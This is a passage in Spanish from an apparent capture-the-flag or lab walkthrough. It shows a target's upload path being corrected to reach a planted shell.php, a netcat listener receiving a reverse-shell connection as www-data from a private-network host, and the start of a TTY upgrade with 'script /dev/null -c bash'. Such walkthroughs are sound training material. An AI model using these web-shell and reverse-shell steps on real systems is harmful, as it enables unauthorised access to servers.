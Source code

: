 <figure><img src="../../.gitbook/assets/Captura de pantalla 2025-08-12 094041.png" alt=""><figcaption></figcaption></figure>

Aqui seleccionamos el archivo llamado `shell.php` veremos que nos lleva a una ruta que no es, por lo que le tendremos que poner la palabra `/ritedev` antes de `/media` quedando algo asi:

```
URL = http://<IP>/ritedev/media/shell.php
```

Ahora si volvemos a donde tenemos la escucha, veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.50] from (UNKNOWN) [192.168.5.76] 56016
whoami
www-data
```

Vemos que ha funcionado, por lo que vamos a sanitizar la `shell`:

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```
